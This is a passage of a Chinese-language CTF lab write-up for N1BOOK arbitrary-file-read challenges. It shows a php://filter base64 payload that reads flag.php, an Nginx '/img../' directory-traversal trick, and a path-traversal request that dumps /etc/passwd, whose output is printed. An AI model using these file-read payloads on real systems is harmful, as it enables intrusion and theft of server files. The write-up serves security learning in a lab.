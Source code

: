 6. 清楚了逻辑，直接尝试 `flag.php`,即`http://172.19.0.1/?p=php://filter/read=convert.Base64-encode/resource=flag`,获得数据`PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9`，解码得
  ```
  <?php
  die('no no no');
  //n1book{afr_1_solved}
  ```
  明显注释中可能表示 flag，查看官方 write up:`http://172.19.0.1/?p=php://filter/convert.base64-encode/resource=flag`，确定无错。

7. php://协议 Filter解读： `?p=php://filter/read=convert.Base64-encode/resource=flag`
   - 这是 p 关键字得 get 传递，即p=****
   - php://是一种协议名称，php://filter/ 是一种访问本地文件的协议
   - read=convert.Base64-encode 表示文件流编码成 Base64 的形式，这样读取的内容就不会存在 PHP 标签
   - /resource=flag 表示目标文件是 flag.php

### 1.3.2 afr_2
1. 访问环境，使用 wappalyzer 插件获得网站的 Banner 信息,发现服务器使用的 Nginx
   ![wappalyzer](afr_2_wappalyzer.png)
2. 使用 dirsearch 进行目录扫描，发现`/img`目录可以直接访问
   ```
    301   194B   http://172.19.0.1:80/img    -> REDIRECTS TO: http://172.19.0.1/img/
    200    99B   http://172.19.0.1:80/index.html
   ```
3. 想起 Nginx 错误配置造成的目录穿越漏洞，使用访问路径`/img../`，获得 flag。

### 1.3.3 afr_3
- 【知识点】:
  - 任意文件读取
  - flask SSTI 模板注入
    - [flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)
  - session 伪造
    - [flask session 伪造](https://blog.csdn.net/DonkeyMoon/article/details/109690476)
    - [[HCTF 2018]admin 1](https://blog.csdn.net/rfrder/article/details/109188719)
    - [N1BOOK 入门session伪造](https://blog.csdn.net/SopRomeo/article/details/111186821?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.control&dist_request_id=1328680.24088.16162219708244293&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.control)

1. `172.19.0.1:5000` 访问本题环境，在 `your name`框键入`test`，点`提交`。
   
2. 跳转到了`http://172.19.0.1:5000/n1page`,并且页面显示：`Hello : test, why you don't look at our article?`，点击 `article` 跳转到了`http://172.19.0.1:5000/article?name=article`

3. 注意到 url 中有参数 name,`name=article`,尝试随意赋值 name，页面回显：`[Errno 2] No such file or directory: '/home/nu11111111l/articles/article1'`，获得路径信息，并且很有可能是 linux 服务器，其实在 wappalyzer 中有检测出是 ubuntu

4. 尝试文件读取漏洞中常见的读取路径。先尝试 `/etc/passwd`，即`http://172.19.0.1:5000/article?name=/../../../etc/passwd`,成功回显`passwd`文件信息。研究了下 linux 的 passwd，没发现特殊的信息，继续尝试其他路径。
```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```